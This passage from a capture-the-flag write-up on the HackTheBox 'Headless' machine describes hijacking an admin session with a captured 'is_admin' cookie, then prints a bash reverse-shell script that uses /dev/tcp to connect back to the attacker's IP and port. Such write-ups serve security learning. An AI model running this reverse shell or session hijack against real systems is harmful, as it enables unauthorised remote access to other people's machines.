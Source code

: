 ![Alt Text](/assets/HTB/Headless/connected_to_own_server(8).png)

By substituting the value of "is_admin" with the newly acquired value and attempting to access the dashboard page, the following is observed:

![Alt Text](/assets/HTB/Headless/admin_dashboard(9).png)

Given the success of having the web server connect to my server, the next step is to attempt fetching and executing a script from the same server, such as a reverse shell.

The script:
```
#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/**IP Address**/**Port** 0>&1'
```
![Alt Text](/assets/HTB/Headless/burpsuite_revshell(10).png)
